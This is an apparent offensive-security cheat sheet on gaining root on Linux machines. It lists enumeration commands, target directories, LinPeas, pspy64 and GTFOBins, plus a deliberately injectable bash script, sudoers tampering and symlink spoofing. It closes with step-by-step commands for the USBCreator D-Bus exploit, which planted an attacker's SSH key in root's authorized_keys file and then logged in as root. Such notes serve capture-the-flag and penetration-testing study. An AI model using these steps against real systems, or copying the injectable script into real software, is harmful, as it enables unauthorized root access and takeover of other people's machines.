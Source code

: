 # Linux
Everything to check when trying to become root


# Commands
- `sudo -l`
- `ps aux | grep <user>`
- `netstat -tulnp`
- `ls - ltrh` --> sort files by latest update (the one that is close to u by date, could be important)
- `kill -9 <pid>`


# Directories
- ~/
- ~/.ssh
- /tmp
- /dev/shm
- /opt
- /var *and all within*
- /usr
- /usr/local


# Tools
- LinPeas
- pspy64
- [GTFOBins](https://gtfobins.github.io/) (online)


# DIR / file copy (symlink)
If there's a DIR or a file that is being copied one can either create a symlink or a direct spoof of the actual file so that the copied item will be spoofed and have the data the attacker wants.


# Bash file command execute
If a file executes any variable, one might be able to write payload to it.

## Example
```bash
#!/bin/bash

echo -e "Input:\t"
read myvar

/bin/bash -c $myvar
```
Note: Here one can insert malicious code to be executed by the program.



# Binaries (file read and write)
- If a gven binary allows you to edit files and one's not yet root, the attacker can try to edit the **sudoers** file and put the user in there, hence gaining root privs.      
- Also, maybe try copying the original file and add yourself to it and replace the original file with the altered version.



# Processes / Buses

## Monitor buses
`busctl` can be used to monitor and examine the D-Bus.

## Vulnerable interfaces

### USBCreator D-Bus | com.ubuntu.USBCreator
#### Steps to exploit
```bash

remote-machine> ps auwx | grep usb

remote-machine> echo "attack-machine id_rsa.pub key" > ~/authorized_keys

remote-machine> gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/remote/authorized_keys /root/.ssh/authorized_keys true

attack-machine> ssh -i id_rsa root@10.10.10.10
```
Help: [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)